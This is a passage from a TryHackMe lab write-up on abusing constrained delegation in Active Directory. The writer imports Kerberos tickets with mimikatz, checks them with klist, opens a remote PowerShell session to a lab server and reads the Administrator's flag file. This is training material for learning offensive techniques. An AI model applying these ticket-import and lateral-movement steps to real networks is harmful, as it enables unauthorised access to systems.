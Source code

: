 We can now exit mimikatz and use `klist` to verify they were successfully imported:

![Pasted image 20250527130358.png](../../../IMAGES/Pasted%20image%2020250527130358.png)

As seen, it worked, we can now create the session:

```
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

![Pasted image 20250527130456.png](../../../IMAGES/Pasted%20image%2020250527130456.png)

Let's read the flag:

```
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt
THM{Constrained.Delegation.Can.Be.Very.Bad}
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami